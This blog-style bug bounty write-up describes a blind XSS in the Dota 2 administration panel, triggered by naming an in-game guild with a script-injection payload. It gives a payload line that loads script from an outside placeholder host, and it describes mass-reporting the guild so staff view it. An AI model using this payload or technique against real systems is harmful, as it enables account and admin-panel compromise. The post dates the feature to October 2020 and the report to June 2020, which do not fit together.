 ```yaml
---
comments: true
title: Gaining Access to Dota 2 Administration Panel By Exploiting In-Game Feature
date: 2022-03-31 00:00:00 +0700
category:
- bugbounty
tags:
- xss
- web
- dota2
private: false

---
```

The finding started when Dota 2 is announcing the new feature for the battle pass owner that is being able to create a guild in the game the update was around october 2020.

![Dota 2 Update ](/uploads/screen-shot-2022-03-31-at-14-03-20.png "Dota 2 Update ")

> **Guild Updates**
>
> We reintroduced Guilds during the Battle Pass, and we were happy to see how many players participated in Guilds and shared their feedback with us. We are keeping the existing Guilds, but many of the rewards received only worked in the context of the Battle Pass. We've redesigned those features so that you can enjoy playing with your guild all the time.
>
> \- source: [https://www.dota2.com/newsentry/3066366095799664170](https://www.dota2.com/newsentry/3066366095799664170 "https://www.dota2.com/newsentry/3066366095799664170")

Because i was an active player of the game and also bugbounty hunter, my idea just popped out to create guild with the Blind XSS Payload name, without even thingking the payload will executed somewhere on the valve systems.

![](/uploads/create-new-guild-1.png)

my first thought is wrong and the exploit was executed on the Dota 2 administration panel, which is a web application hosted on dota2.com which make me excited 🙀🙀🙀.

![](/uploads/174_total_reports.png)

This is was the admin panel looks like, rather than trying to escalating my privilege with the javascript execution i have, i just report what i found immediatelly to the [https://hackerone.com/valve](https://hackerone.com/valve "H1 Valve") team, but i've seen the admin panel is manage all the information of the game like the ip address of the currently in-game rooms, also i can possibly banned a player there, pro player information also stored there, etc is like almost everything custom game and whatever there.

![](/uploads/menus.png)

After my investigation to the vulnerability my conclusion is, the more guild registered to the system is more hard of our exploit being viewed by the staff that logged-in to the administrator panel because the table list of guild was sorted by the amount of report received to the guild, so to reproduce it for the second time i was using this steps below:

* Create guild with a blind xss payload as the name `'"><script src=//domain></script>`
* Report the guild name multiple times, until you feel the report amount is enough to make our guild listed on the first page.
* Profit! `alert(1)`

![](/uploads/reporting-1.png)

There is 3 form of report that can a guild get, `report guild name`, `report guild logo`, `report guild tag` and all of the report amount is combined to `total_reports` that will used as the sorted value when the `datatable` is loaded on the application.

I was automating this process to login to the game and report my guild repeatedly to get the amount of `total_reports` i want to get my guild on the first page of the `datatable` since the table is configured to only show 50 rows for each page, to get this was not hard since i was testing when the feature is just released couple days ago.

### Key Takeaways

* Keep in mind of your input might end up anywhere that you not even expect, we never know ¯\\_(ツ)_/¯ .

That is all for this writeup folks, see you on the next writeup :salute: .

***

Jun 12 2020: Reported  
Jun 12 2020: Severity Changed Crit -> High ( I don't get it actually,  the team said my xss need user interaction but i don't think that make a)  
Jun 16 2020: Triaged  
Sept 8 2020: Severity Changed High -> Med ( Based on all the information and actions that i can do there, this just dissapointing 😪 )  
Sept 8 2020: Rewarded 750USD + 150USD Bonus

Proof(UNDISCLOSED yet): [https://hackerone.com/reports/896281](https://hackerone.com/reports/896281 "https://hackerone.com/reports/896281")